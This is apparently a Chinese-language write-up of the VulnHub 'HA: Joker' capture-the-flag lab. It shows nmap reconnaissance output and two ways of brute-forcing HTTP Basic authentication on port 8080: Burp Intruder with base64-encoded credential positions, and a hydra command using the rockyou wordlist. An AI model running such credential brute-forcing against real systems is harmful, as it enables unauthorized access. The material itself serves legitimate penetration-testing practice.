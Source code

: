 <center>joker</center>





[toc]







## joker

> vulnhub: [joker](https://www.vulnhub.com/entry/ha-joker,379/)



> Description: 

```shell
This lab is going to introduce a little anarchy. It will upset the established order, and everything becomes will become chaos. Get your face painted and wear that Purple suit because it’s time to channel your inner Joker. This is a boot2root lab. Getting the root flag is ultimate goal.

ENUMERATION IS THE KEY!!!!!  # 枚举是关键。
```





### 1. 信息收集

```shell
nmap -sP 172.16.168.128/24

Nmap scan report for 172.16.168.135
Host is up (0.00048s latency).
MAC Address: 00:0C:29:D8:05:4E (VMware)

# 端口扫描
nmap -p- 172.16.168.135 -A

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: Joker
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

> `ip` 和`端口`







### 2. 爆破 密码

> 枚举是关键。

```shell
1. 80 端口  单页没有任何信息
2. 8080 端口 需要登陆用户名和密码
```

1. burp爆破

> burp 抓包

```shell
# 登陆信息 加密了
Authorization: Basic YWRtaW46MTIz

# 发送到Decoder  Base64解密
admin:123
用户名：密码=>base64加密

# 发送到intruder爆破 type: Custom inerator自定义模式
position： 1 => 用户名
position : 2 => :
position : 3 => 密码
# 可以使用字典。/usr/share/wordlists
# payload processing => Eecode => base64-decode 
start atttack

# 看长度不同的包，发送到decoder解密。就是我们的密码和账号
joker:hannah
```

2. hydra爆破

```shell
# -L 用户名文件 只能IP
hydra -l joker -P /usr/share/wordlists/rockyou.txt 172.16.168.135 -s 8080 http-get
```

